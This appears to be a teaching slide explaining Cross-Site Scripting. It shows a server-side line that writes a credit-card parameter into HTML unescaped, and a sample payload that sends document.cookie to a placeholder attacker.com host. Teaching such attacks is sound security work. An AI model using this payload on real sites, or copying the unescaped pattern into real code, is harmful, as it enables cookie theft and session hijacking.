

# Cross-Site Scripting (XSS)
Attacker sends text-based attack scripts that exploit the interpreter in the browser in which all user supplied input may not be properly escaped and validated.
Example:
(String) page +="<input name ='creditcard' type='TEXT' value='"+request.getParameter("CC")+"'>";
Modify "CC" as '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo=' +document.cookie</script>'
A good explanation: https://excess-xss.com/